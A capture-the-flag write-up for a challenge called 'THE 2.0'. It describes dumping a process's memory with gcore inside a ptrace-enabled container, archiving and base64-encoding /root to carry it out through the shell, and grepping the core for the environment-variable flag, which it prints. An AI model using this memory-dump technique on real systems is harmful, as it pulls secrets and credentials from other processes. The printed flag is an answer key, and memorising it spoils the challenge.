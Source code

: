 # IRS Internal CTF
## THE 2.0 [misc]

_Same executable, same challenge. Can you get to `env`?_

### A note on 2.0

Originally, this challenge was going to be a lot harder: you'd have to read the flag out from `/proc/self/mem` or some other nonsense, and that would've filled the pwn quota for this ctf by a stretch.

On the flip side, I couldn't actually solve my own challenge that way. So I made things a whole lot simpler, by adding this ol' line to the `Dockerfile`:

`RUN apt install -y gdb`

As well as these few lines to `docker-compose.yml`:
```
    security_opt:
      - seccomp:unconfined
    cap_add:
      - sys_ptrace
```

That simplifies things _a lot_. There is this cool command --- an offspring of `gdb` called `gcore` --- that will dump the memory of any process to a very nice file, allowing you to extract out the `env` flag via the simple trick you would've learnt from the first edition of THC.

We're rambling off into the void. How about we talk about what the challenge is actually about?

### Running old tricks into the ground

The description says that we need to get into `env`. If you'll recall from the previous writeup --- or from adventures through IDA --- there is a small whitelist for inputted commands:
```sh
$ echo $FLAG
Woah, real hacking ain't allowed here.
$ env
Woah, ...
```
There may be some other way to get to the environment variables. I frankly don't know. This challenge is simple enough anyway that the presence of another solution is not a big deal, points-wise.

If we want to access `env`, dumping the memory of any command-line process is always enough. The presence of `getenv()` was really just left in the binary as a hint for what the intended solution was; removing `getenv()` and `char *flag` would still leave the environment variable, `$FLAG`, embedded somewhere inside the executable's RAM.

In any case, if we want to grab the flag, we can dump the memory of _any_ process:



```sh
$ ps
   PID TTY          TIME CMD
    1 ?        00:00:00 pwncat
    7 ?        00:00:00 socat
  186 ?        00:00:00 a.out
  189 ?        00:00:00 sh
  190 ?        00:00:00 ps
$ gcore 1
0x00007facd9dc1c2a in wait4 () from /lib/x86_64-linux-gnu/libc.so.6
Saved corefile core.1
[Inferior 1 (process 1) detached]
$ tar cf tempfile /root
$ stat tempfile
  File: tempfile
  Size: 573440 ... #that's really big. Let's compress it.
...
$ rm tempfile
$ tar zcf tempfile /root
$ stat tempfile
  File: tempfile
  Size: 86828 ... #that's a lot better
$ base64 tempfile
...
```
The base64 is rather long, but I C-c'd it anyway, and you can get the file back client-side:
```sh
you@home-terminal:~$ base64 -di copied_base64.txt > tempfile
you@home-terminal:~$ tar zxf tempfile root/core.1
you@home-terminal:~$ grep FLAG root/core.1 | less
```
You should see something like this:
<p align="center">
<img src="less.png">
</p>
With that, you're done!

## Flag
`IRS{h0ly_wh@t_y0u_d1d_1t???}`